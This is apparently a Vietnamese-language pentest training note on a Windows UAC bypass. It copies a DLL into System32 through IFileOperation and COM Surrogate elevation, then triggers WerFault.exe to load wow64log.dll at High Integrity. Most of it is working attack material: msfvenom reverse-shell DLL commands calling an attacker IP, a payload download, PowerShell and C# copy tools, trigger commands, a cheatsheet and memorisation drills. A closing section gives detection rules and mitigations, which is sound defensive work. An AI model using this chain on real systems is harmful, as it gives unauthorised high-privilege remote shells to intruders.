

> **Prerequisites**: [[07-dll-hijack-systemproperties|07. DLL Hijack — SystemPropertiesAdvanced]]
> **Objectives**:
> - Hiểu IFileOperation COM interface cho phép copy file vào protected path không cần prompt
> - Biết dllhost.exe (COM Surrogate) đóng vai trò như thế nào trong elevated file operation
> - Thực hiện copy DLL vào System32 qua IFileOperation rồi trigger DLL load
> - Nhận biết khi nào technique này phù hợp hơn WindowsApps path

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - User trong local Administrators group (Medium Integrity)
> - UAC ở mức mặc định (không phải Always Notify — level ≠ 2)
> - Windows 10 / Windows 11
> - Script hoặc binary để invoke IFileOperation (thường dùng PowerShell hoặc C#)

> [!info] Khi nào dùng technique này?
> - `%LOCALAPPDATA%\Microsoft\WindowsApps` không trong %PATH% (Windows 11 mới)
> - Cần copy DLL vào vị trí tùy ý trong System32 để trigger specific elevated binary
> - Cần bypass trường hợp elevated binary chỉ load DLL từ System32 (không search %PATH%)

---

## Cơ chế tấn công

### IFileOperation là gì?

`IFileOperation` là COM interface trong Windows Shell (`shell32.dll`) cho phép thực hiện file operations (copy, move, rename, delete). Điều đặc biệt: khi được gọi từ Medium Integrity process, Windows **tự động elevate IFileOperation** để thực hiện operation trong context của dllhost.exe (COM Surrogate) với elevated privilege.

Điều này nghĩa là: dù caller chỉ có Medium Integrity, file operation thực sự được thực thi bởi elevated dllhost.exe — cho phép copy file vào `C:\Windows\System32\` mà **không hiện UAC prompt**.

```text
Medium Integrity process
    ↓ Invoke IFileOperation.CopyItem(src, dest=System32)
        ↓ Windows spawns dllhost.exe (COM Surrogate)
        ↓ dllhost.exe runs elevated — copies DLL to System32
    ↓ DLL now in System32
    ↓ Trigger auto-elevated binary that loads this DLL
        ↓ Binary loads attacker DLL from System32
→ DLL code runs at HIGH integrity
```

### dllhost.exe — COM Surrogate

Khi IFileOperation được invoked, Windows tạo:

```text
dllhost.exe /Processid:{3AD05575-8857-4850-9277-11B85BDB8E09}
```

CLSID `{3AD05575...}` là "Move/Copy Shell Extension" — đây là indicator mạnh trong detection. Bất kỳ `dllhost.exe` nào với CLSID này đang thực hiện elevated file operation.

### Mục tiêu DLL: wow64log.dll (UACME method 30)

Một ví dụ điển hình: `WerFault.exe` (Windows Error Reporting) có autoElevate, khi chạy nó cố load `wow64log.dll` — DLL không tồn tại trong System32. Attacker dùng IFileOperation để đặt DLL vào System32, trigger WerFault để đạt High Integrity.

---

## Quy trình tấn công

**Môi trường giả định**: Medium Integrity shell, Windows 10.

### Bước 1 — Tạo malicious DLL

```bash
# Trên Kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.1 LPORT=4444 \
    -f dll -o wow64log.dll
```

### Bước 2 — Upload lên target

```powershell
Invoke-WebRequest -Uri "http://10.10.14.1/wow64log.dll" -OutFile "$env:TEMP\wow64log.dll"
```

### Bước 3 — Invoke IFileOperation để copy vào System32

**PowerShell script sử dụng Shell COM:**

```powershell
function Invoke-IFileOperation {
    param(
        [string]$Source,
        [string]$Destination
    )

    $shell = New-Object -ComObject Shell.Application

    # Source namespace
    $srcFolder = Split-Path $Source -Parent
    $srcFile   = Split-Path $Source -Leaf

    # Destination folder
    $dstFolder = $shell.Namespace($Destination)
    $srcNS     = $shell.Namespace($srcFolder)
    $srcItem   = $srcNS.ParseName($srcFile)

    # Perform the copy — this triggers dllhost.exe elevated
    $dstFolder.CopyHere($srcItem, 0x10)  # 0x10 = no progress dialog
    Start-Sleep -Seconds 2

    Write-Output "[+] IFileOperation: $srcFile → $Destination"
}

# Copy malicious DLL to System32
Invoke-IFileOperation -Source "$env:TEMP\wow64log.dll" `
                      -Destination "C:\Windows\System32"
```

> **Expected output**: `[+] IFileOperation: wow64log.dll → C:\Windows\System32`
> Verify: `Test-Path "C:\Windows\System32\wow64log.dll"` → `True`

> [!warning] Timing
> IFileOperation là asynchronous — `Start-Sleep` sau CopyHere là cần thiết. Nếu không có sleep và check, DLL chưa kịp copy xong khi trigger.

### Bước 4 — Trigger elevated binary

```cmd
start C:\Windows\System32\WerFault.exe -u -p 0
```

> **Expected output**: Reverse shell callback ở High Integrity.

### Bước 5 — Cleanup

```powershell
# Cần High Integrity để xóa khỏi System32
# (thực hiện từ elevated shell vừa có được)
Remove-Item "C:\Windows\System32\wow64log.dll" -Force
Remove-Item "$env:TEMP\wow64log.dll" -Force
```

### C# Implementation (không phụ thuộc PowerShell)

```csharp
// IFileOperationCopy.cs — compile thành .exe và chạy ở Medium Integrity
using System;
using System.Runtime.InteropServices;

class Program {
    [ComImport, Guid("3AD05575-8857-4850-9277-11B85BDB8E09"),
     CoClass(typeof(FileOperationClass))]
    interface IFileOperation { /* simplified */ }

    static void Main(string[] args) {
        // .NET Shell.Application COM approach
        dynamic shell = Activator.CreateInstance(
            Type.GetTypeFromProgID("Shell.Application"));
        dynamic dstFolder = shell.NameSpace(@"C:\Windows\System32");
        dynamic srcFolder = shell.NameSpace(System.IO.Path.GetDirectoryName(args[0]));
        dynamic srcItem   = srcFolder.ParseName(System.IO.Path.GetFileName(args[0]));
        dstFolder.CopyHere(srcItem, 0x10);
        System.Threading.Thread.Sleep(3000);
    }
}
```

```cmd
csc.exe IFileOperationCopy.cs /out:IFileCopy.exe
IFileCopy.exe C:\Temp\wow64log.dll
```

---

## Biến thể & Bypass

### Các DLL target khác

Tìm DLL bị missing trong các auto-elevated binary bằng Procmon:

```text
Filter: Process Name = WerFault.exe | Operation = CreateFile | Result = NAME NOT FOUND
→ Look for .dll extension
```

Một số DLL targets đã biết:

| Binary | Missing DLL | Notes |
|--------|------------|-------|
| WerFault.exe | wow64log.dll | UACME method 30 |
| credwiz.exe | netplwiz.exe (via PATH) | DLL redirect |
| various | api-ms-win-* DLLs | Thường trong SilentCleanup chain |

### IFileOperation rename (thay vì copy)

Thay vì copy DLL mới, rename một DLL hiện có trong writable path thành tên DLL bị tìm kiếm:

```powershell
# Ví dụ: rename malicious.dll thành wow64log.dll trong temp
# rồi dùng IFileOperation.MoveItem để move vào System32
$shell = New-Object -ComObject Shell.Application
$srcNS = $shell.Namespace("$env:TEMP")
$dstNS = $shell.Namespace("C:\Windows\System32")
$item  = $srcNS.ParseName("malicious.dll")
$dstNS.MoveHere($item, 0x10)
```

---

## Cây quyết định



---

## Command Cheatsheet

**Tạo DLL**

```bash
# 64-bit reverse shell DLL
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f dll -o target.dll

# 32-bit (nếu target là 32-bit process)
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f dll -o target.dll
```

**IFileOperation PowerShell**

```powershell
$shell = New-Object -ComObject Shell.Application
$dst = $shell.Namespace("C:\Windows\System32")
$src = $shell.Namespace((Split-Path $srcDll))
$item = $src.ParseName((Split-Path $srcDll -Leaf))
$dst.CopyHere($item, 0x10)
Start-Sleep 3
Test-Path "C:\Windows\System32\$(Split-Path $srcDll -Leaf)"
```

**Trigger WerFault (wow64log.dll)**

```cmd
start C:\Windows\System32\WerFault.exe -u -p 0
```

**Kiểm tra dllhost.exe elevated (detection)**

```powershell
Get-Process dllhost | ForEach-Object {
    $cmdline = (Get-WmiObject Win32_Process -Filter "ProcessId=$($_.Id)").CommandLine
    if ($cmdline -match "3AD05575") { Write-Output "IFileOperation in progress: $_" }
}
```

---

## Daily Drill

**Thời gian**: 15 phút/ngày trong 5 ngày.

**Drill 1 — IFileOperation PowerShell**
Mục tiêu: nhớ chuỗi 4 lệnh Shell.Application CopyHere.

```powershell
$s = New-Object -ComObject Shell.Application
$d = $s.Namespace("C:\Windows\System32")
$i = $s.Namespace($srcDir).ParseName($filename)
$d.CopyHere($i, 0x10); Start-Sleep 3
```

Luyện cho đến khi: viết lại 4 dòng không cần nhìn notes.

**Drill 2 — Verify và kiểm tra**
Mục tiêu: nhớ cách confirm DLL đã copy thành công trước khi trigger.

```powershell
Test-Path "C:\Windows\System32\<target.dll>"
# Must be True before triggering!
```

**Drill 3 — Architecture check**
Mục tiêu: nhớ check architecture DLL vs process.

```powershell
# Check target process
(Get-Process "WerFault").StartInfo.EnvironmentVariables  # hay dùng file command
file wow64log.dll  # x86_64 hay x86
```

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **dllhost.exe signature**: `dllhost.exe /Processid:{3AD05575-8857-4850-9277-11B85BDB8E09}`
> - Sysmon Event ID 1: `Image: dllhost.exe, CommandLine: *3AD05575*`
>
> **EQL correlation** (Elastic):
> ```
> sequence by host.id
>   [file where process.name == "dllhost.exe"
>    and file.path : "?:\\Windows\\System32\\*"
>    and file.extension == "dll"] by file.path
>   [library where user.id : "S-1-5-18"
>    and not dll.code_signature.subject_name : "Microsoft *"] by dll.path
> ```
>
> **File**: Unexpected DLL in System32 không có Microsoft signature
> - Monitor file creation trong System32 bởi non-SYSTEM processes

> [!note] Mitigation
> - Tăng UAC lên Always Notify — IFileOperation elevation sẽ bị block
> - WDAC: chỉ allow Microsoft-signed DLLs load vào System processes
> - Sysmon rule: alert on dllhost.exe với CLSID 3AD05575

---

## Lab Thực hành

| Platform | Machine | Tại sao phù hợp |
|----------|---------|----------------|
| Local VM | Windows 10 | Test IFileOperation, quan sát dllhost.exe trong Process Explorer |
| HTB | **Endgame XEN** (Retired) | IFileOperation + DLL hijack trong complex chain |
| HTB | **Arkham** (Retired) | Alternate path — compare IFileOperation vs WindowsApps |
| Local VM | Windows 11 | Verify technique còn hoạt động, test UACME method 30 |

---

## Field Manual Entry

> [!abstract] IFileOperation Privileged Copy + DLL Hijack
> **Điều kiện**: User trong Admins, UAC ≠ Always Notify
> **Cơ chế**: dllhost.exe COM Surrogate elevated copy → DLL in System32
> **Key indicator**: `dllhost.exe /Processid:{3AD05575-8857-4850-9277-11B85BDB8E09}`
> **PowerShell one-block**:
> ```powershell
> $s = New-Object -ComObject Shell.Application
> $s.Namespace("C:\Windows\System32").CopyHere(
>     $s.Namespace($srcDir).ParseName($dllName), 0x10)
> Start-Sleep 3
> ```
> **Trigger (wow64log.dll)**: `start WerFault.exe -u -p 0`
> **Ref**: [[08-ifileoperation-dll-hijack|08. IFileOperation Privileged File Copy + DLL Hijack]]
